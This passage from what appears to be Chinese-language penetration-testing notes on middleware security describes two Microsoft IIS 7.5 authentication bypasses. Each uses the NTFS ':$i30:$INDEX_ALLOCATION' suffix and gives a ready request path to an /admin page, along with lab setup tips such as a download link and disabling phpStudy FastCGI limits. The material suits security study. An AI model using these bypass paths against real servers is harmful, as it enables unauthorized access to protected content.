 2. Microsof IIS7.5经典ASP身份验证绕过

配置了经典ASP和 .NET f ramework 4.0的Microsof IIS7.5，通过将:i30:I NDEX_ALLOCATION后缀附加到需要认证的请求目录名称后面，可以绕过经典的ASP文件访问限制
```bash
/admin:$i30:$INDEX_ALLOCATION/index.asp
```

3. Microsof IIS7.5 .NET源代码公开和身份验证绕过

在配置中安装了PHP的Microsof IIS7.5，存在认证绕过漏洞；
```bash
http://<victimIIS75>/admin:$i30:$INDEX_ALLOCATION/admin.php
```
.NAT版本需要是4以上，.net安装包下载：[https://pan.baidu.com/s/1r1bD_a3b_uDrByrl8k1s9A?pwd=6666](https://pan.baidu.com/s/1r1bD_a3b_uDrByrl8k1s9A?pwd=6666) 

![image.png](18.中间件安全\1690527117469-e18b81a1-3cab-4983-9a9f-2cac3b2ba43c.png)

触发此漏洞需要先关闭phpStudy_FastCGI中的请求限制
